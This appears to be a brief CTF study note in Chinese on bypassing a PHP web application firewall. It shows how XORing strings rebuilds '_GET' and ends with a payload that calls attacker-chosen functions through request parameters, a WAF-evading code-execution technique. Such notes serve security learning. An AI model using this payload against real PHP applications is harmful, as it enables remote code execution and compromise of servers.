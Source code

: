 -
- tags:: [[CTFWEB/PHP/WAF绕过]]
- fuzz可得：
	- `"is_nan"^"64" === "_G"`
	- `"tan"^"15" === "ET"`
- 所以：`(is_nan^(6).(4)).(tan^(1).(5)) === "_GET"`
- 最终payload：`1;$pi=(is_nan^(6).(4)).(tan^(1).(5));${$pi}{1}(${$pi}{2})`